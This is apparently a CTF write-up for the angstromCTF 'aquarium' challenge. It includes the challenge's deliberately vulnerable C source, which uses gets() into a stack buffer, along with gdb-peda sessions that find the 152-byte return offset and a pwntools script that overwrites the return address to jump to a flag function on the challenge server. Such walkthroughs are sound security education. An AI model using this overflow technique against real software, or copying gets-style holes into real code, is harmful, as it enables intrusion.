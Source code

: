 ## angstromCTF: aquarium
> Here's a nice little program that helps you manage your fish tank.
##### *tl;dr: buffer overflow to change control flow*
#### The pwn challenges for this ctf are 64-bit, which I've never worked with and understood before, thus lead me to learning some new stuff to be used in the upcoming ctfs. It's important to note that we are given the source codes for the binaries, which makes it somewhat easier to understand the control flow and spot the vulnerability. 
##### aquarium.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```
#### Analyzing the source code, we see that we are given prompts for various variables for the struct. We also spot the vulnerable gets call on the last prompt, which we can use to perform a buffer overflow. Fire up gdb and do tests on the binary, we can input anything we want on the first few prompts, but we do want to perform the overflow on the prompt for the name.:
```
$ gdb ./aquarium
  gdb-peda$ pattern create 200
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  
  gdb-peda$ r
  Enter the number of fish in your fish tank: 1000
  Enter the size of the fish in your fish tank: 1000
  Enter the amount of water in your fish tank: 1000
  Enter the width of your fish tank: 1000
  Enter the length of your fish tank: 1000
  Enter the height of your fish tank: 1000
  Enter the name of your fish tank: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
  
  [...]
  RIP: 0x40138e (<create_aquarium+469>:	ret)
  => 0x40138e <create_aquarium+469>:	ret  
  Stopped reason: SIGSEGV
  0x000000000040138e in create_aquarium ()
```
#### Trying to input 200 bytes of random characters, we can be able to trigger the segfault error, but it seems that we don't have control of our rip register. But I have learned that we do have control over it, we just need to find at which offset we can do it. We do this by simply checking the content of the `rsp` register to get the offset then we proceed to verify our control.
```
gdb-peda$ x/wx $rsp
0x7fffffffdd78:	0x41417041

gdb-peda$ pattern offset 0x41417041
1094807617 found at offset: 152

gdb-peda$ r
  [...]
  Enter the name of your fish tank: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
  Stopped reason: SIGSEGV
  0x0000424242424242 in ?? ()
```
#### And yea, there we have it we can control program flow with offset 152. But where do we want to jump to now? We've seen a flag function in the code, and that's where we want to jump to - thus we need it's address:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x4011a6 <flag>
```
#### Then what we need for our exploit is complete, we now proceed to create our exploit script and run it against the server to get our flag.
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'shell.actf.co'
PORT = 19305
p = remote(HOST,PORT)
# p = process('./aquarium')

#: Exploit code
offset = 'A' * 152
flag_addr = p64(0x4011a6)
exploit = offset + flag_addr

#: Send payload
for prompts in range(6):
	p.sendline('1000')

print(p.recvuntil('Enter the name of your fish tank: '))
p.sendline(exploit)
p.interactive()
```
#### We got our flag! 
`actf{overflowed_more_than_just_a_fish_tank}`
